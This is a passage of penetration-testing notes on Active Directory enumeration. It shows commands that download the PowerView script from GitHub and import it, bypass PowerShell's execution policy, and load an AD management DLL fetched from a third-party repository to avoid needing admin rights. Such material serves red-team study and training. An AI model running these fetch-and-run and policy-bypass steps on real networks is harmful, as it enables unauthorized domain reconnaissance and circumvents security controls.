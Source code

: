     Loading it inside the machine,

    ```c
    PS C:\Users\sharingan> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1 -OutFile PowerView.ps1
    PS C:\Users\sharingan> Import-Module .\PowerView.ps1
    Import-Module : File C:\Users\sharingan\PowerView.ps1 cannot be loaded because running scripts is disabled on this
    system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
    At line:1 char:1
    + Import-Module .\PowerView.ps1
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
        + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
    ```
    We should bypass the ```ExecutionPolicy``` too, inorder to load a powershell script.

    ```c
    PS C:\Users\sharingan> powershell -ep bypass
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

    Try the new cross-platform PowerShell https://aka.ms/pscore6

    PS C:\Users\sharingan> Import-Module .\PowerView.ps1
    ```
2. Active Directory Module

    If you have Administrator privileges, you can easily install AD Module. It is not present by default.

    RSAT (Remote Server Administration Toolkit) should be installed

    ```c
    Import-Module Server-Manager
    Add-WindowsFeature RSAT-AD-Powershell
    ```

    Bypassing Admin rights for AD Module,
    
    We need an important DLL for this purpose

    ```c
    Microsoft.ActiveDirectory.Management.dll
    ``` 
    
    That DLL is imported via RSAT from DC to enable AD Module
    
    Location of that DLL in DC,
    
    ```c
    C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\
    ```

    We can also do it manually, to bypass the admin rights

    [Microsoft.ActiveDirectory.Management.dll](https://github.com/samratashok/ADModule/raw/master/Microsoft.ActiveDirectory.Management.dll)
